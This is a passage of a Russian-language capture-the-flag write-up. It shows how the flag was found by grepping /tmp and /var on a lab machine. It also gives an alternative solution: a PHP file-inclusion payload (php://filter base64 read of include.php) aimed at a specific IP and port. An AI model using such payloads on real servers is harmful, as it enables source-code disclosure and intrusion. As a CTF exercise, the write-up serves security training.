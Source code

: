 Видим что максимальное количество прав на папку **/tmp**

Можно в ней поискать наш флаг с помощью утилиты **grep**.

```bash
~ $ grep -r "RDGCTF" /tmp
```

Но поиск ничего не дает. Попробуем поискать в папке **/var**, так как там обычно хранятся исходники сервисов.

```bash
~ $ grep -r "RDGCTF" /var
/var/www/html/include.php:/* RDGCTF{I_am_so_filled_with_my_knowledge_that_I_seem_to_have_already_One_hundred_trillion_billion_years_I_'ve_been_living_on_trillions_and_trillions_of_planets_like_this_Earth,_to_me_this_world_is_absolutely_it_is_clear,_and_I_am_looking_for_only_one_thing_here_-_peace,_tranquility_and_here_is_this_harmony,_from_merging_with_the_infinitely_eternal,_from_contemplation_the_great_fractal_similarity_and_from_this_wonderful_unity_a_being_infinitely_eternal,_wherever_you_look,_even_deep_down_-_infinitely_small,_though_up_-_infinite_big,_do_you_understand?} */
~ $
```
Как видим поиск вышел удачным. Мы получили флаг. Как оказалось он лежит прямо в файле **include.php**


## Альтернативное решение

Поблагодарим команду **smiley-from-telega** которые прислали нам альтернативное решение.

Из-за того, что флаг находится непосредственно в файле **include.php**, мы можем использовать следующую **PHP** инъекцию.

```html
http://185.241.194.80:41003/include.php?file=php://filter/convert.base64-encode/resource=include
```

После чего мы прямо на странице получаем строчку вывода в **Base64**

![10](images/10.png)

Скопировав ее в [CyberChef](https://cyberchef.org/)
<br>Декодируем ее (можно воспользоваться волшебной палочкой)
Получим наш флаг.
